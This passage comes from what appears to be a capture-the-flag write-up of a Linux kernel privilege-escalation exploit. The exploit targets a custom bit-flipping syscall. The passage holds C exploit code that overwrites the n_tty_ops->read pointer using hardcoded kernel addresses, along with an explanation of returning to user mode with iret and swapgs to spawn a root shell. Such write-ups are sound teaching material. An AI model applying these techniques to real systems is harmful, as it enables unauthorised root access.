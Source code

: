 ```c

    // Write n_tty_ops->read address
    unsigned long mask = (unsigned long)N_TTY_READ ^ (unsigned long)privilege_escalation;
    for(long index=0; index<64; index++) {
        if(mask & (1ULL << index)) {
            flitbip((char *)N_TTY_OPS + N_TTY_OPS_READ_OFFSET, index);
        }
    }
    
    // Trigger the n_tty_ops->read operation
    char c;
    scanf("%c", &c);

    return 0;
}
```

### Return to user-land

Finally, but certainly not least, we will develop the latter part of the exploit: returning to user-land and initiating a new shell. To achieve this, I'll leverage my knowledge of Intel processors and the invaluable [Intel Developer's Manual](https://cdrdv2.intel.com/v1/dl/getContent/671200) to understand how to transition from kernel-land to user-land. According to these resources, we can use the `iret` instruction to switch from ring 0 (kernel-land) to ring 3 (user-land). This instruction resembles a `ret` instruction, but the expected stack frame is as follows:

![](images/iret.png)

Additionally, it's crucial to remember to swap the `gs` selector register, as we enter kernel mode from the `syscall` method. The exploit now looks like that:

```c
#define FLITBIP 333
#define flitbip(addr, bit) syscall(FLITBIP, addr, bit)
#define TASK_STRUCT_CRED_OFFSET 0x3c0
#define N_TTY_OPS_READ_OFFSET 48

unsigned long *FLIT_COUNT   = (unsigned long *)0xffffffff818f4f78;
unsigned long *CURRENT_TASK = (unsigned long *)0xffffffff8182e040;
unsigned long *N_TTY_OPS    = (unsigned long *)0xffffffff8183e320;
unsigned long *N_TTY_READ   = (unsigned long *)0xffffffff810c8510;

unsigned long SS;
unsigned long RSP;
unsigned long RFLAGS;
unsigned long CS;
unsigned long RIP;

void get_shell(void) {
    system("/bin/sh");
}

void privilege_escalation(void) {
    // Set all ids from our user one to the root one (0)
```